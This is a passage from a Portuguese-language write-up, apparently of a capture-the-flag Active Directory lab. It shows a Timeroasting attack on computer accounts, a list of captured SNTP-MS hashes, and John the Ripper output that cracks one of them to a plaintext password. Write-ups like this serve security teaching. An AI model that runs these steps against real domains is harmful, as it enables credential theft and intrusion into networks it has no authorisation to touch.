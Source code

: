 Com o zip gerado, estarei utilizando o [Bloodhound-legacy](https://github.com/SpecterOps/BloodHound-Legacy) para "digerir" esse dump e gerar o gráfico visual.

## Analisando o Active Directory

### Realizando um Timeroasting para obter o IT-Computer3$

Após algum tempo analisando o AD, não encontramos nada interessante a não ser as várias contas de computadores:

![computers](https://res.cloudinary.com/dmx1j4rjb/image/upload/v1761766306/f951227a-122e-4742-b4d0-c7ed5fcd39f1.png)

O que levanta a hipótese de um ataque de [Timeroasting](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/timeroasting). Utilizando o [script](https://github.com/SecuraBV/Timeroast/blob/main/timeroast.py) do mesmo site, conseguimos as seguintes hashs:
```bash
1000:$sntp-ms$3fc8b5cffc215f72ebd3b779696baac5$1c0111e900000000000a65e24c4f434cecacd516799587bce1b8428bffbfcd0aecad5b68059da4c1ecad5b68059dc64f
1103:$sntp-ms$de79e918feba6ba77ad3ad58cd01cb37$1c0111e900000000000a65e24c4f434cecacd51679b332c7e1b8428bffbfcd0aecad5b68c5bb4c71ecad5b68c5bb6fad
1104:$sntp-ms$938aee049b64154e27f64bd3f52791e2$1c0111e900000000000a65e24c4f434cecacd5167b9f82e7e1b8428bffbfcd0aecad5b68c7a7942eecad5b68c7a7bfcd
1105:$sntp-ms$11c48527a1939d4b088d2456eb6ae77e$1c0111e900000000000a65e24c4f434cecacd516788d0d9ae1b8428bffbfcd0aecad5b68c8adb90becad5b68c8adddf4
1106:$sntp-ms$da784792e6ea12d62ebc509c03cd62a7$1c0111e900000000000a65e24c4f434cecacd5167ab5ef3ae1b8428bffbfcd0aecad5b68cad69750ecad5b68cad6c142
1107:$sntp-ms$ebd52e1657ffafb6b8da3f8277b9519c$1c0111e900000000000a65e24c4f434cecacd5167c5e8922e1b8428bffbfcd0aecad5b68cc7f3641ecad5b68cc7f597c
1118:$sntp-ms$6170b4f9ad2199ecb6e1815a54f2db34$1c0111e900000000000a65e24c4f434cecacd5167be30f2ee1b8428bffbfcd0aecad5b68e41421f5ecad5b68e41441d6
1119:$sntp-ms$75010daf1dd74db151f1af431798d79d$1c0111e900000000000a65e24c4f434cecacd5167972bcb5e1b8428bffbfcd0aecad5b68e57ad304ecad5b68e57af99b
1120:$sntp-ms$9635feeb4d92dcdc860e2e1a8a054904$1c0111e900000000000a65e24c4f434cecacd516786f9690e1b8428bffbfcd0aecad5b68e8903643ecad5b68e8906a45
1121:$sntp-ms$77129d188cb7d62d2b8a525db5c146d6$1c0111e900000000000a65e24c4f434cecacd5167a9a5d0de1b8428bffbfcd0aecad5b68eabb01c9ecad5b68eabb2d68
1122:$sntp-ms$496ca062d4994931f60819a8252519a2$1c0111e900000000000a65e24c4f434cecacd5167c405e94e1b8428bffbfcd0aecad5b68ec610350ecad5b68ec61309c
1123:$sntp-ms$ffb4b4ab380b72116688ef5342171b95$1c0111e900000000000a65e24c4f434cecacd51679f24be2e1b8428bffbfcd0aecad5b68edea04ebecad5b68edea2679
1124:$sntp-ms$1a54335d4224cf81a14b311a6836109f$1c0111e900000000000a65e24c4f434cecacd51679f32957e1b8428bffbfcd0aecad5b68edeae0b4ecad5b68edeb059c
1125:$sntp-ms$c96cc1fb895b1b093050b46858d0d1b4$1c0111e900000000000a65e24c4f434cecacd51678811b1de1b8428bffbfcd0aecad5b68f0916949ecad5b68f0918929
1126:$sntp-ms$3f1007a180067d7601177870178d3330$1c0111e900000000000a65e24c4f434cecacd51678e9721fe1b8428bffbfcd0aecad5b68f0f9c1f8ecad5b68f0f9e02b
1127:$sntp-ms$e29320686d737b188991617f060c6272$1c0111e900000000000a65e24c4f434cecacd5167905a052e1b8428bffbfcd0aecad5b68f115ee7eecad5b68f1160e5f
```

Com elas, conseguimos brutar as hashs localmente usando o `John` ou o `Hashcat` e obter a seguinte senha:
```bash
john --wordlist="/usr/share/wordlists/rockyou" hashs
Using default input encoding: UTF-8
Loaded 16 password hashes with 16 different salts (timeroast, SNTP-MS [MD4+MD5 32/64])
Will run 4 OpenMP threads
Note: Passwords longer than 9 [worst case UTF-8] to 27 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Rusty88!         (1125)     
1g 0:00:00:19 DONE (2025-10-29 16:37) 0.05020g/s 719771p/s 11332Kc/s 11332KC/s !143u143..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
